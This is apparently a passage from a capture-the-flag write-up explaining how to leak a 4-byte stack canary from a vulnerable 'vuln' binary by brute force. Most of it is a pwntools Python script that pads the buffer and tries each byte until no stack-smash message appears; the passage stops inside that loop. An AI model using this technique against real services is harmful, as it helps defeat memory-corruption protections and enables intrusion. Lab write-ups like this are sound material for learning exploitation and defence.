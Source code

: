 Also, keep in mind that we cannot include Carriage Return (\r) or Line Feed (\n) in our input buffer, else it will stop the read() function.

Below is the script that will leak the canary from server, notice that we use send() instead of sendline():

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
from itertools import permutations
import time

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# from buffer to stack canary
pad1 = 64

# The stored values from the leaked canary
canary = ['A', 'A', 'A', 'A']

# loop through all 4 entries of the canary
for i in range(4):
    # loop through all possible bytes for each entry
    for c in range(255):    
        p = start();
        p.recv()
        p.sendline(b"-1"); 
        p.recv()

        payload = b"A" * pad1 # initial padding
        payload += "".join(canary[0:i]).encode() # the canary we've leaked so far
        payload += chr(c).encode() # the new character to try
        print(payload)
        p.send(payload)
        recv = p.recv()
        p.close()

        # Check the output
        if b'Stack Smash' not in recv:
```